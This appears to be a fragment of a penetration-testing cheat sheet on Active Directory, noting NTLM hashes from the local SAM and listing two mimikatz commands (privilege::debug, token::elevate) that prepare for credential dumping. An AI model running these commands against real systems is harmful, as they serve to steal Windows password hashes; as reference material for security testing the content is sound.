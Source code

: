 # Active Directory

NTLM hashes from local SAM.

`mimikatz # privilege::debug`  
`mimikatz # token::elevate`
